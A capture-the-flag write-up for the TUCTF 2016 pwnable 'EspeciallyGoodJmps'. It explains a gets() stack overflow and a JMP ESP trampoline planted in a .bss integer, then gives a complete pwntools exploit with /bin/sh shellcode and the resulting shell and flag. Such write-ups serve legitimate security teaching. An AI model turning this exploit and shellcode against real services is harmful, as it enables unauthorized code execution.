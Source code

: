 # TUCTF 2016: EspeciallyGoodJmps

## Challenge details
| Event | Challenge | Category | Points |
|:------|:----------|:---------|-------:|
| TUCTF | EspeciallyGoodJmps | Pwnable | 75 |

### Description
> Pop a shell.
>
> Binary is hosted at: 130.211.202.98:7575
> 
> EDIT:
> 
> ASLR is enabled on remote server.

## First steps

Lets start by checking the binary:

```bash
$ file 23e4f31a5a8801a554e1066e26eb34745786f4c4
23e4f31a5a8801a554e1066e26eb34745786f4c4: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=afcb1c16b8d5a795af98824aaede8fabc045d4ed, not stripped
```

```bash
$checksec.sh --file 23e4f31a5a8801a554e1066e26eb34745786f4c4
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   23e4f31a5a8801a554e1066e26eb34745786f4c4

```

Looks good! No NX and no canary so we can execute shellcode from the stack! Lets look at the code:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+10h] [bp-20h]@1

  puts("What's your name?");
  fflush(stdout);
  gets((char *)&v4);
  puts("What's your favorite number?");
  fflush(stdout);
  __isoc99_scanf("%d", &meow);
  if ( meow & 1 )
  {
    printf("Hello %s, %d is an odd number!\n", &v4, meow);
    fflush(stdout);
  }
  else
  {
    printf("Hello %s, %d is an even number!\n", &v4, meow);
    fflush(stdout);
  }
  return 0;
}
```

Pretty straightforward: the program asks for your name and saves it on the stack (without bounds checking! so we have a stack-based buffer overflow) and subsequently asks for an integer which gets stored in a static location (.bss) 'meow' 

```asm
.bss:0804A048 meow            dd ?                    ; DATA XREF: main+47o
```

The first approach here is to simply smash the stack, overwrite saved EIP with an address of a gadget that effectively performs either a jmp ESP or call ESP, which will transfer execution to our shellcode on the stack. 

However there are no usefull ROP-gadgets available in the binary so we have to take an alternative route. 
One approach could be return-to-libc but ASLR is enabled on the remote server and we have no way of leaking pointers.

So, the easiest approach is to write our JMP ESP (ff e4) opcode into the integer (meow) located in the (static) .bss section of the binary and then point eip to meow, effectively creating a trampoline.

Eventually, the exploit looks something like this:
[filler, 40bytes][saved_ebp, 4bytes][addr_of_meow(eip), 4bytes][shellcode]

And when a number is asked we put in an integer that gets stored as '\x90\x90\xff\xe4'




## Final exploit

```python
#!/usr/bin/env python
#
# TUCTF 2016
# especiallygoodjmps (PWN/75)
#
# @a: Smoke Leet Everyday
# @u: https://github.com/smokeleeteveryday
#

from pwn import *
from struct import pack as p, unpack as u

host, port = ('130.211.202.98', 7575)

r = remote(host, port)

# prepare eip + ebp overwrite values
new_eip = p('<I', 0x0804A048) # > 0804A048 meow 
new_ebp = p('<I', 0xDEADBEEF)

# prepare shellcode 
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

# prepare payload
payload = "B"*40 + new_ebp + new_eip + shellcode

# send payload to victim
print r.recvuntil('What\'s your name?\n')
r.sendline(payload)
print r.recvuntil('What\'s your favorite number?\n')

# construct 4-byte trampoline in meow
h = '\x90\x90\xff\xe4' # jmp esp = ff e4
trampoline = u('<i', h)
r.sendline("%d" % trampoline) 

# enjoy your shell
r.interactive()
r.close()
```

Which, when executed, gives us:

```bash
$ ./exploit.py
[+] Opening connection to 130.211.202.98 on port 7575: Done
What's your name?

What's your favorite number?

[*] Switching to interactive mode
Hello BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBﾭ�H\xa0\x01�Ph//shh/bin\x89�PS\x89��
  , -453013360 is an even number!
$ ls
easy
flag.txt
$ cat flag.txt
TUCTF{th0se_were_s0me_ESPecially_good_JMPs}

```
